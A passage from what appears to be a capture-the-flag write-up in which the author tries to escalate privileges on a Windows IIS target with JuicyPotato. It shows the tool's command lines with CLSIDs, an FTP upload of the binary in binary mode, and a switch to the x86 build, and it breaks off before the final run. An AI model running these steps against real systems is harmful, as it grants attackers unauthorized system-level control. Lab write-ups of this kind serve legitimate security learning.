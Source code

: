 Then tried to execute using the first CLSID on the list:

```cmd
c:\inetpub\wwwroot>JuicyPotato.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {555F3418-D99E-4E51-800A-6E89CFD8B1D7}
JuicyPotato.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {555F3418-D99E-4E51-800A-6E89CFD8B1D7}
This program cannot be run in DOS mode.
```

I tried a couple more CLSIDs and a different port, but no luck. I looked up the error, and found [this post](https://superuser.com/questions/476808/i-am-getting-this-program-cannot-be-run-in-dos-mode-in-windows-xp):

![[Pasted image 20210614123703.png]]

So I need to turn on binary mode. [This post](https://docs.oracle.com/cd/E19120-01/open.solaris/819-1634/remotehowtoaccess-60496/index.html) shows us how:

```bash
ftp> binary
200 Type set to I.
ftp> put JuicyPotato.exe 
local: JuicyPotato.exe remote: JuicyPotato.exe
200 PORT command successful.
150 Opening BINARY mode data connection.
226 Transfer complete.
347648 bytes sent in 0.28 secs (1.1910 MB/s)
```

This time it executed! But it wasn't the right architecture, apparently:

```cmd
c:\inetpub\wwwroot>JuicyPotato.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
JuicyPotato.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
This version of c:\inetpub\wwwroot\JuicyPotato.exe is not compatible with the version of Windows you're running. Check your computer's system information to see whether you need a x86 (32-bit) or x64 (64-bit) version of the program, and then contact the software publisher.
```

It was then I realised I'd misread the `systeminfo` - the processor type is `x64`, but the system is `x86`.

No bother - we have an `x86` version too. Let's upload it:

```bash
ftp> put Juicy.Potato.x86.exe 
local: Juicy.Potato.x86.exe remote: Juicy.Potato.x86.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
263680 bytes sent in 0.33 secs (789.3519 kB/s)
```

Then execute it:
